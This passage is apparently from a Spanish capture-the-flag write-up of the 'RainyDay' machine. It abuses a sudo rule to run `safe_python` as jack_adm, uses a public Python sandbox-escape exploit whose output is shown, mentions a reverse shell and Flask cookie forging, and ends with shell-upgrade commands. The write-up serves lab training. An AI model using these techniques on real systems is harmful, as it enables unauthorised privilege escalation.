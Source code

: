 Vemos que hay un **safe_python** pero el problema es que nos tenemos que convertir en **jack_adm** para ejecutarlo 

```bash
jack@rainyday:/home$ sudo -l
Matching Defaults entries for jack on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jack may run the following commands on localhost:
    (jack_adm) NOPASSWD: /usr/bin/safe_python *
jack@rainyday:/home$ 
```

## Shell as jack_adm

Como podemos correr lo que sea con **jack_adm** podemos correr el siguiente script para convertirnos en el <https://github.com/kn32/python-buffered-reader-exploit/tree/master>

![](https://i.imgur.com/L5PndYX.png)

```bash
jack@rainyday:/dev/shm$ sudo -u jack_adm safe_python exploit.py 
[*] .dynamic:   0x55cde070ebe8
[*] DT_SYMTAB:  0x55cde01ad5f8
[*] DT_STRTAB:  0x55cde01ba300
[*] DT_RELA:    0x55cde0213560
[*] DT_PLTGOT:  0x55cde070ee08
[*] DT_INIT:    0x55cde0217000
[*] Found system at rela index 97
[*] Full RELRO binary, reading system address from GOT
[*] system:     0x7fc002f18d60
$ whoami
jack_adm
```

![](https://i.imgur.com/9IdAEWO.png)

Podemos enviar una reverse shell

![](https://i.imgur.com/l3yqENK.png)

>Antes de seguir yo hice la maquina hace mucho tiempo hay otra forma de ser **jack_adm** al igual que ser **jack_adm** en la pagina web para poder acceder en el panel de login para hacer eso hay que conseguir una **cookie** se tiene que usar **flask-unsign** y conseguir el **SECRET_KEY** ya que hay un subdominio **dev.rainyday.htb** solo que yo estoy mostrando la forma mas rapida y facil de conseguir la maquina si quieren ver esa parte al final del post les dejo otros writeups

Recuerden hacer esto

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo;fg
reset xterm
ENTER
```
